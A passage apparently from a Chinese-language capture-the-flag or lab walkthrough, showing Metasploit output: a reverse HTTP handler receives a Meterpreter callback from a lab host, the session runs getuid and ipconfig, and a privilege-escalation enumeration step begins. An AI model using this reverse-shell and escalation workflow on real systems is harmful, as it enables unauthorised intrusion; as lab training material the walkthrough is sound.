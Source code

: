 
Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started HTTP reverse handler on http://10.50.111.108:4242
[!] http://10.50.111.108:4242 handling request from 10.200.114.35; (UUID: zdmd8wyn) Without a database connected that payload UUID tracking will not work!
[*] http://10.50.111.108:4242 handling request from 10.200.114.35; (UUID: zdmd8wyn) Redirecting stageless connection from /A5BQvMdAwA5-V39VHLlKzgCQmoCNNwOLQeRnnz78sVYzN-uQk1of4-NsQVO5t8-PMHKdmkqp8UQlZ with UA 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0'
[!] http://10.50.111.108:4242 handling request from 10.200.114.35; (UUID: zdmd8wyn) Without a database connected that payload UUID tracking will not work!
[*] http://10.50.111.108:4242 handling request from 10.200.114.35; (UUID: zdmd8wyn) Attaching orphaned/stageless session...
[!] http://10.50.111.108:4242 handling request from 10.200.114.35; (UUID: zdmd8wyn) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 3 opened (10.50.111.108:4242 -> 127.0.0.1 ) at 2022-08-06 05:30:12 -0400

meterpreter > getuid
Server username: HOLOLIVE\watamet
meterpreter > ipconfig

Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface  6
============
Name         : AWS PV Network Device #0
Hardware MAC : 02:94:8e:24:ab:23
MTU          : 9001
IPv4 Address : 10.200.114.35
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::5c88:e884:e5fe:5fa
IPv6 Netmask : ffff:ffff:ffff:ffff::

meterpreter > 

```

## 提权枚举

使用```post/multi/recon/local_exploit_suggester```自动枚举模块

```
msf6 post(multi/recon/local_exploit_suggester) > run
